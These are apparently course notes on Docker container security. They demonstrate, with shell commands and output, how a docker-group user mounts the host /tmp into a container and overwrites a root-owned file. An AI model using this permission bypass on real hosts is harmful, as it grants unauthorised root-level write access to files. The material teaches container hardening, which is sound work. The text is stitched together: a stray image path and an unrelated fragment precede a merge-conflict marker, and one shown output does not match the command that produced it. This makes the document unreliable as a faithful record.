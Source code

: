 


### How would I escape from it?

Downloading third-party Docker images can be a danger way to do it.

To avoid this problem you need to download images from trusted sources, as [Docker Hub](https://hub.docker.com/).
=======
# Exploiting vulnerable images

<sub>You can buy this course on Udemy following this link: [Hacking and Securing Docker Containers](https://www.udemy.com/course/hacking-and-securing-docker-containers/)</sub>

## Namespaces

### Editing read-only files as root from containers

Normally we run containers with our users, with or without sudoers.
Even if we are only in a single docker group, it allows you to run docker.
But we have a problem in this case. A **security** problem.

```bash
gle003@vb-ubuntu:~$ ll /tmp/file.txt
-rw-r--r-- 1 root root 36 jul 11 14:53 /tmp/file.txt
```
> ​	*file.txt* was created with root user.

As you can see, *file.txt* has **no write** to other users than root.

```bash
gle003@vb-ubuntu:~$ cat /tmp/file.txt
File from VM. Out of the container.
gle003@vb-ubuntu:~$ echo "Edit from non-root user" >> /tmp/file.txt
-su: /tmp/file.txt: Permission denied
```
If we start a container **sharing a folder from the machine**, you can login inside the container and have root privileges, as I show below:

```bash
#Creating a new container and sharing /tmp/
gle003@vb-ubuntu:~$ docker run -itd -v /tmp/:/shared/ --name alpine_broken alpine
3be059a0473ddc9cbe33c1a95ba4e52d25525d912cd8ef5a01f1da0066c7a6eb
gle003@vb-ubuntu:~$ docker exec -it alpine_broken sh

#Testing if it is possible to edit file.txt from the container
~ # ls -l /shared/file.txt
-rw-r--r--    1 root     root            36 Jul 11 17:53 /shared/file.txt
~ # echo "Edit from container." > /shared/file.txt
~ # cat /shared/file.txt
Edit from the container.
~ # exit

#Seeing that it changed from the machine
gle003@vb-ubuntu:~$ cat /tmp/file.txt
Edit from the container.
```
